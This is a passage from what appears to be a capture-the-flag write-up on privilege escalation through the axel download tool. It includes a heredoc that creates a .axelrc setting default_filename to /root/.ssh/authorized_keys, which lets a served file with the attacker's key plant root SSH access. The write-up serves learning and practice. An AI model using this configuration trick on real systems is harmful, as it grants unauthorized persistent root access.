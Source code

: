 But, if we run same command again axel creates new file with `.0` suffix, same name file already exists

![](/assets/img/posts/timing/axelrc-new-file.png)

With that we have some limitations where we can not append or overwrite existing file but we can still create arbitrary file in the filesystem.

i already write `/root/.ssh/authorized_keys` with wget let see what axel do with it.
```bash
cat <<EOF > .axelrc
# When downloading a HTTP directory/index page, (like http://localhost/~me/)
# what local filename do we have to store it in?
#
default_filename = /root/.ssh/authorized_keys
EOF
```

* Before downloading file we need to put content that we wanted to download form our web server in `index.html` file.
